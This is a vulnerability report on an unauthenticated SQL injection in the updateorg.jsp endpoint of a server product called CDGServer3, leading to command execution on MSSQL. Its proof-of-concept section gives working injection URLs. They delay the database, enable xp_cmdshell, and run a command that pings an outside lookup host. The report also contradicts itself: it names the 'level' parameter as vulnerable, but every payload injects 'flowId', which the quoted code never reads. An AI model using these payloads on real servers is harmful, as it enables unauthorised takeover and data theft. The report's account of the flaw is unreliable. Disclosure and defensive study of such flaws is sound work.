


# Vulnerability Report

## Title: Unauthenticated SQLI Leading to Remote Code Execution (RCE)

### Summary:

A SQL injection vulnerability was discovered in the `updateorg.jsp` endpoint, specifically in the `level` parameter. This vulnerability allows an unauthenticated attacker to execute arbitrary code on the MSSQL server, potentially gaining full control over the server.

### Affected Endpoint:

`/CDGServer3/workflowE/useractivate/updateorg.jsp`

### Vulnerability Type:

RCE

### Vulnerable Code:

```jsp
<%
	String ids = request.getParameter("orgIds");
	String USER_NAME = request.getParameter("userId");
	USER_NAME = java.net.URLDecoder.decode(USER_NAME,"UTF-8");   

	String level = request.getParameter("level");
	String tempId = request.getParameter("tempId");
		
	PrintWriter pw = response.getWriter();
	ApprovalRangeDao dao = new ApprovalRangeDao();
	ApprovalRangeInfo info = null;
	
	OrganiseStructDao organiseDao = new OrganiseStructDao();
	OrganiseStructInfo organiseinfo = null;
	
	List list = null;
	String str;
	
	if(!"".equals(level) || !"".equals(USER_NAME) || !"".equals(level)){
		
		if(
				(ids.equals("") && level != null && USER_NAME != null & tempId != null) ||
				(ids == null && level != null && USER_NAME != null & tempId != null) ||
				(ids.equals("''") && level != null && USER_NAME != null & tempId != null)
		){
			dao.deleteApprovalRangeByUserNameAndTempIDAndLevel(USER_NAME,tempId,level);
		}else{
			UserDao uDao = new UserDao();
			User user = uDao.findUserNotPassById(USER_NAME);
			String USER_ID = user.getUserId();
			
			String[] orgIds = ids.split("'");
			List listx = new ArrayList();
			for(int i=0;i<orgIds.length;i++){
				if(!orgIds[i].equals("") && !orgIds[i].equals(",")){
					listx.add(orgIds[i]);
				}
			}
			StringBuffer ssb = new StringBuffer();
			for(int i=0;i<listx.size();i++){
				ssb.append(listx.get(i));
				ssb.append(",");
			}
			
			String[] orgIdsX = ssb.toString().split(",");
			String[] orgNames = new String[orgIdsX.length];
			for(int i=0;i<orgIdsX.length;i++){
				organiseinfo = organiseDao.getGroupInfo(orgIdsX[i]);
				orgNames[i] = organiseinfo.getOrganiseName();
			}
			
			StringBuffer sb = new StringBuffer();
			for(int i=0;i<orgNames.length;i++){
				sb.append(orgNames[i]);
				sb.append(",");
			}
			
			list = dao.getApprovalList(USER_ID,tempId);
			
			if(list == null || list.size()==0){
				for(int i=0;i<orgIdsX.length;i++){
					if(!orgIdsX[i].equals("")){
						info = new ApprovalRangeInfo();
						info.setUserId(USER_ID);
						info.setUserName(USER_NAME);
						info.setOrganiseId(orgIdsX[i]);
						info.setOrganiseName(orgNames[i]);
						info.setApprovalLevels(level);
						info.setField01(tempId);
						dao.addApprovalRange(info);
					}
				}
			}else{
				dao.deleteApprovalRangeByUserId(USER_ID,tempId);
				for(int i=0;i<orgIdsX.length;i++){
					if(!orgIdsX[i].equals("")){
						info = new ApprovalRangeInfo();
						info.setUserId(USER_ID);
						info.setUserName(USER_NAME);
						info.setOrganiseId(orgIdsX[i]);
						info.setOrganiseName(orgNames[i]);
						info.setApprovalLevels(level);
						info.setField01(tempId);
						dao.addApprovalRange(info);
					}
				}
			}
		}
		str="OK";		
	}else{
		str="error";
	}
	pw.write(str);
	pw.close();
%>

```

### Proof of Concept (PoC):

1. Time-based SQL Injection:

   ```
   https://uri/CDGServer3/workflowE/useractivate/updateorg.jsp?flowId=1';WAITFOR DELAY '0:0:10'--
   ```

2. Enabling `xp_cmdshell`:

   ```
   https://uri/CDGServer3/workflowE/useractivate/updateorg.jsp?flowId=1';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;--
   ```

3. Executing arbitrary command:

   ```
   https://uri/CDGServer3/workflowE/useractivate/updateorg.jsp?flowId=1';exec master..xp_cmdshell 'ping 27b536b2c9.ipv6.1433.eu.org.'--
   ```



### Impact:

This vulnerability allows an attacker to execute arbitrary commands on the server, which can lead to:

- Complete server compromise.
- Data exfiltration.
- Denial of Service (DoS) by executing resource-intensive commands.
- Potential lateral movement within the internal network.

### Recommendation:

1. **Input Validation and Sanitization:** Ensure that all user inputs are properly sanitized and validated. Use prepared statements with parameterized queries to prevent SQL injection.
2. **Least Privilege Principle:** Ensure the database user has the least privileges necessary for the application to function.
3. **Disable Dangerous Features:** Disable features like `xp_cmdshell` unless absolutely necessary.
4. **Regular Security Audits:** Conduct regular security audits and code reviews to identify and fix vulnerabilities.

### Conclusion:

The RCE in the `updateorg.jsp` endpoint poses a significant security risk. Immediate remediation steps should be taken to sanitize user inputs and secure the database against unauthorized access and code execution.

### References:

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [Mitigation Techniques](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)

